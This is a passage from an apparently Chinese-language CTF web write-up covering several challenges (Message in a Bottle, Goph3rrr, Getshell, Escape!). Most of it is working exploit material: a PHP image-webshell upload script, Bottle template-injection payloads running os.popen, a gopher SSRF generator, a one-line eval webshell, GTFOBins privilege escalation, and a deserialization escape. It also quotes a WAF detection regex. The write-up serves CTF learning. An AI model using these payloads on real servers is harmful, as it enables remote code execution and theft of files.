    "Accept-Encoding": "gzip, deflate",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
    "Upgrade-Insecure-Requests": "1"
}

# 1. 上传 .htaccess
body = construct_multipart_body(files_data)
response = requests.post(
    TARGET,
    headers=headers,
    data=body,
    # 禁用自动计算 Content-Length
)
print(f"[*] .htaccess 上传状态码: {response.status_code}")
print(f"[*] 服务器响应: {response.text}")

# 2. 上传图片马
shell_content = (
    b"GIF89a
"
    b"<?php system($_GET['cmd']); ?>")
files_data = [
    ("file", "shell.png", shell_content, "image/png")
]
body = construct_multipart_body(files_data)
response = requests.post(
    TARGET,
    headers=headers,
    data=body
)
print(f"[*] Shell 上传状态码: {response.status_code}")

# 3. 触发执行（根据服务器存储路径调整）
shell_url = TARGET + "images/shell.png"  # 常见存储路径可能是 /images/ 或 /uploads/
response = requests.get(shell_url, params={"cmd": "cat /flag"})
print("[+] 命令执行结果:")
print(response.text)
```

# Message in a Bottle

bottle框架

开发文档

```
https://www.osgeo.cn/bottle/stpl.html
```



发现if判断条件，刚好可以去执行代码

```
__import__('os').popen("cat /f*").read()
```

一开始想着去命令执行，但是发现无回显，想弹shell，弹不了

就想着要不直接打内存马吧，参考文章

```
https://xz.aliyun.com/news/16942?u_atoken=95e962674f782d4542190e3a1aede167&u_asig=1a0c399717413302460763434e0039
```

就有了下面这个

```
<div>
 % if __import__('bottle').abort(404,__import__('os').popen("cat /f*").read()):
  <span>content</span>

 % end
</div>

```

结果到了后面plus那题就直接出了，导致我感觉没啥区别这两题

# Goph3rrr

扫描扫到app.py源码

审计发现过滤了127.0.0.1但是发现他启动app.py是0.0.0.0

所以这个黑名单可以用0.0.0.0替代

然后在/Manage路由可以命令执行

生成gopher发包的python脚本

```
import urllib.parse
payload="cmd=env"
payload_len=len(payload)
test =\
f"""POST /Manage HTTP/1.1
Host: 0.0.0.0:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: {payload_len}

{payload}
"""
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```

/Gopher?url=gopher://0.0.0.0:8000/\_POST%20/Manage%20HTTP/1.1%0D%0AHost%3A%200.0.0.0%3A8000%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%207%0D%0A%0D%0Acmd%3Denv%0D%0A

bp发包记得要双重编码绕过

环境变量看到flag

# Getshell

```
?action=run&input=echo${IFS}"<?php%09eval(\$_POST[0]);?>">1.php
```

然后蚁剑连接

利用提权

<https://gtfobins.github.io/gtfobins/wc/>

```
 ./wc --files0-from "/flag"
```

# Escape！

字符串逃逸+死亡绕过



要逃逸的是下面这些

```
";s:7:"isadmin";b:1;}
```

一共长21个

发现用单引号最快

一个单引号可以多四个字符，那么就是5个单引号加上一个flag就逃逸21个字符了

```
flag'''''";s:7:"isadmin";b:1;}
```

或者是21个flag直接

因为这里的s:29是按照原来的flag计算的

比如说我现在注册一个用户名是

```
flagflag";s:7:"isadmin";b:1;}
```

那么注册后就是这样的

```
O:4:"User":2:{s:8:"username";s:29:"flagflag";s:7:"isadmin";b:1;}";s:7:"isadmin";b:0;}
```

但是waf检测到flag，把flag替换成error

```
O:4:"User":2:{s:8:"username";s:29:"errorerror";s:7:"isadmin";b:1;}";s:7:"isadmin";b:0;}
```

这个29就不包括后面的

```
;}
```

这就导致多了这个两个字符了，我们就是要利用这个特点

把

```
";s:7:"isadmin";b:1;}
```

这段字符串逃逸出来

所以用户名是

```
flag'''''";s:7:"isadmin";b:1;}
```

然后登陆进admin

```
filename=php://filter/write=convert.base64-decode/resource=1.php&txt=xPD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg==
```

然后

```
1=system('cat%20/f*');
```

拿到flag

# Message in a Bottle plus

这里一开始fuzz

一直提示我语法错误，


后面我本地搭建了一个

就是我只输入一个双引号或者%字符都会导致报错，这个好像是因为枚举那个函数导致报错的



但是如何用两个双引号包裹就不会报错

同时我发现我输入

```
<div></div>

```

会把尖括号过滤了

我猜想就是这样导致一直提示报错，而两个双引号包裹又不会报错。

但是想到我的payload是多行，于是就用回显头的方式来看看是否执行成功

```
"""
  % if __import__('bottle').response.set_header('X-Result', 1):
1
  % end
"""
```



回显头多了个1说明成功了

读flag

```
"""
  % if __import__('bottle').abort(404,__import__('os').popen("cat /flag").read()):
1
  % end
"""
```

这里我读了一下源码

```
 """
 % if __import__('bottle').abort(404,__import__('os').popen("cat app.py").read()):
  1
 % end
 """
```

去掉了一些CSS代码

```
import ast
import re

from bottle import Bottle, request, template, run


app = Bottle()

# 存储留言的列表
messages = []
def handle_message(message):
    message_items = "".join([f"""
        <div class="message-card">
            <div class="message-content">{msg}</div>

            <small class="message-time">#{idx + 1} - 刚刚</small>

        </div>

    """ for idx, msg in enumerate(message)])

    board = f"""<!DOCTYPE html>
    <html lang="zh">
    <head>
    </head>

    <body>
        <div class="container">
            <div class="d-flex justify-content-between align-items-center mb-4">
                <h1 class="mb-0">📝 简约留言板</h1>

                <a 
                    href="/Clean" 
                    class="btn btn-danger"
                    onclick="return confirm('确定要清空所有留言吗？此操作不可恢复！')"
                >
                    🗑️ 一键清理
                </a>

            </div>

            <form action="/submit" method="post">
                <textarea 
                    name="message" 
                    placeholder="输入payload暴打出题人"
                    required
                ></textarea>

                <div class="d-grid gap-2">
                    <button type="submit" class="btn-custom">发布留言</button>

                </div>

            </form>

            <div class="message-list mt-4">
                <div class="d-flex justify-content-between align-items-center mb-3">
                    <h4 class="mb-0">最新留言（{len(message)}条）</h4>

                    {f'<small class="text-muted">点击右侧清理按钮可清空列表</small>' if message else ''}
                </div>

                {message_items}
            </div>

        </div>

    </body>

    </html>"""
    return board


def waf(message):
    # 保留原有基础过滤
    filtered = message.replace("{", "").replace("}", "").replace(">", "").replace("<", "")

    # 预处理混淆特征
    cleaned = re.sub(r'[\'"`\]', '', filtered)  # 清除引号和反斜杠
    cleaned = re.sub(r'/\*.*?\*/', '', cleaned)  # 去除注释干扰

    # 增强型sleep检测正则（覆盖50+种变形）
    sleep_pattern = r'''(?xi)
(
    # 基础关键词变形检测
    \b
    s[\s\-_]*l[\s\-_]*e[\s\-_]*e[\s\-_]*p+  # 允许分隔符：s-l-e-e-p
    | s(?:l3|1|i)(?:3|e)(?:3|e)p            # 字符替换：sl33p/s1eep
    | (?:sl+e+p|slee+p|sle{2,}p)            # 重复字符：sleeeeep
    | (?:s+|5+)(?:l+|1+)(?:e+|3+){2}(?:p+|9+)  # 全替换变体：5l33p9
    
    # 模块调用检测（含动态导入）
    | (?:time|os|subprocess|ctypes|signal)\s*\.\s*(?:sleep|system|wait)\s*\(.*?\)
    | __import__\s*\(\s*[\'"](?:time|os)[\'"]\s*\)\.\s*\w+\s*\(.*?\)
    | getattr\s*\(\s*\w+\s*,\s*[\'"]sleep[\'"]\s*\)\s*\(.*?\)
    
    # 编码检测（Hex/Base64/URL/Unicode）
    | (?:\x73|%73|%u0073)(?:\x6c|%6c|%u006c)(?:\x65|%65|%u0065){2}(?:\x70|%70|%u0070)  # HEX/URL编码
    | YWZ0ZXI=.*?(?:c2xlZXA=|czNlM3A=)  # Base64多层编码匹配（sleep的常见编码）
    | %s(l|1)(e|3){2}p%                # 混合编码
    
    # 动态执行检测（修复括号闭合）
    | (?:eval|exec|compile)\s*\(.*?(?:sl(?:ee|3{2})p|['"]\x73\x6c\x65\x65\x70).*?\) 
    
    # 系统调用检测（Linux/Windows）
    | /bin/(?:sleep|sh)\b
    | (?:cmd\.exe\s+/c|powershell)\s+.*?(?:Start-Sleep|timeout)\b
    
    # 混淆写法
    | s\/leep\b     # 路径混淆
    | s\.\*leep      # 通配符干扰
    | s<!--leep      # 注释干扰
    | s\0leep        # 空字节干扰
    | base64
    | base32
    | decode
    | \+
)
'''


    if re.search(sleep_pattern, cleaned):
        return "检测到非法时间操作！"
    if re.search('eval', cleaned):
        return "eval会让我报错"

    # AST语法树检测增强
    class SleepDetector(ast.NodeVisitor):
        def visit_Call(self, node):
            # 检测直接调用 sleep()
            if hasattr(node.func, 'id') and 'sleep' in node.func.id.lower():
                raise ValueError

            # 检测 time.sleep() 等模块调用
            if isinstance(node.func, ast.Attribute):
                if node.func.attr == 'sleep' and \
                        isinstance(node.func.value, ast.Name) and \
                        node.func.value.id in ('time', 'os'):
                    raise ValueError

            self.generic_visit(node)

    try:
        # 保留原有语法检测
        tree = ast.parse(filtered)
        SleepDetector().visit(tree)
    except (SyntaxError, ValueError):
        # 保持原有错误提示
        return "检测某种语法错误，防留言板报错系统启动"

    return filtered


@app.route('/')
def index():
    return template(handle_message(messages))


@app.route('/Clean')
def Clean():
    global messages
    messages = []
    return '<script>window.location.href="/"</script>'

@app.route('/submit', method='POST')
def submit():
    message = waf(request.forms.get('message'))
    messages.append(message)
    return template(handle_message(messages))


if __name__ == '__main__':
    run(app, host='0.0.0.0', port=8080,debug=True)
```

这里的waf

```
            # 检测 time.sleep() 等模块调用
            if isinstance(node.func, ast.Attribute):
                if node.func.attr == 'sleep' and \
                        isinstance(node.func.value, ast.Name) and \
                        node.func.value.id in ('time', 'os'):
                    raise ValueError

            self.generic_visit(node)
```

明明不能调用os模块，但是为啥最后还是被调用了
